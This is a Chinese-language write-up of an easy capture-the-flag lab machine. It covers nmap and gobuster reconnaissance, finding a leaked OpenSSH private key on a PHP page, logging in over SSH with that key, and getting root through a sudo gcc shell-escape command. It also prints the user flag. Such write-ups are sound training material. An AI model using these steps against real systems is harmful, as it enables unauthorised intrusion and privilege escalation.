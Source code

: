## 靶机信息
- 级别:容易
- 基于vmware
- user.txt和root.txt

## SSH私钥泄露,目录爆破

## Recon
### nmap
```shell
nmap -sn 192.168.1.0/24
//IP:192.168.1.142

sudo nmap -sT -p- --min-rate 10000 192.168.1.142 -oA nmap_tcp
//Ports  STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
## Web
![[Pasted image 20231007204722.png]]
### 目录爆破
```shell
gobuster dir -u http://192.168.1.142 -w /usr/share/wordlists/dirb/common.txt -x txt,php,html

///key.php              (Status: 200) [Size: 287]
```

![[Pasted image 20231007204931.png]]
### HTTP-Enum
```shell
nmap --script=http-enum 192.168.1.142
| http-enum: 
|_  /d41d8cd98f00b204e9800998ecf8427e.php: Seagate BlackArmorNAS 110/220/440 Administrator Password Reset Vulnerability
```
访问 /d41d8cd98f00b204e9800998ecf8427e.php 文件，是一个openssh私钥

![[Pasted image 20231007212106.png]]
容易遗漏源码title中的内容

## 提权
### 获得立足点
```shell
sudo chmod 600 key
ssh -i key mpampis@192.168.1.142
```
### user flag
```shell
// /home/mpampis下获得user flag
2cb67a256530577868009a5944d12637
```

### 利用sudo gcc 提权
```shell
sudo -l
Matching Defaults entries for mpampis on nyx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mpampis may run the following commands on nyx:
    (root) NOPASSWD: /usr/bin/gcc

// https://gtfobins.github.io/gtfobins/gcc/#shell
sudo gcc -wrapper /bin/sh,-s .
// 成功提权
```

![[Pasted image 20231007213429.png]]










